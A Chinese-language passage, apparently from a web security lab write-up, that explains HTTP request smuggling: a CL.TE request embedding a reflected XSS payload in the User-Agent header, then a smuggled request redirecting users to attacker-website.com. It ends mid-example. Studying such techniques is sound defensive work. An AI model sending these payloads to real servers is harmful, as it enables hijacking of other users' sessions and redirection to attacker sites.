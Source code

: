 #### 加强版XSS

UA头有反射XSS，我们构造这样的payload

```http
POST / HTTP/1.1
Host: ac811f011e27d43b80301693005a0007.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=iSxMvTrkiVN2G5N7EF7MTKgXGRE6A5xZ
Upgrade-Insecure-Requests: 1
Content-Length: 150
Transfer-Encoding: chunked

0

GET /post?postId=5 HTTP/1.1
User-Agent: "><script>alert(1)</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1

```

只需要发送一次，之后任意访问页面都会弹窗，因为我们的请求嵌入到上面第二个请求中

#### 修改重定向

目标在使用 30x 跳转的时候，使用了 Host 头进行跳转，例如在 Apache & IIS 服务器上，一个uri 最后不带 / 的请求会被 30x 导向带 / 的地址，例如发送以下请求：

```http
GET /home HTTP/1.1
Host: normal-website.com
```

我们会得到 Response :

```http
HTTP/1.1 301 Moved Permanently
Location: https://normal-website.com/home/
```

看起来没什么危害，但是如果我们配合 HTTP Smuggling 就会有问题了，例如：

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: X
```
